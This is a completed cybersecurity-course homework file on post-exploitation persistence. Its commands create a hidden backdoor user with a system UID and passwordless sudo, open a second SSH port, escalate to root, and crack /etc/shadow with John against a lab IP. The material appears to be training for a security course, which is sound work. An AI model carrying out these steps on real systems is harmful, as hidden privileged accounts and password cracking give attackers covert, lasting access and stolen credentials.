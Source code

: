 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd --no-create-home sysd

2. Give your secret user a password: 
    - passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 777 sysd

4. Give your secret user the same GID:
   - groupmod -g 777 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  visudo and add line "sysd ALL=(ALL) NOPASSWD:ALL"

6. Test that `sudo` access works without your password:

    ```bash
    sudo -l
    sudo cat /etc/shadow
    sudo visudo
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    sudo nano /etc/ssh/sshd_config
    ```
    add uncommented in sshd_config:
    port 22
    port 2222

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - sudo systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su root

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su root
    - john /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

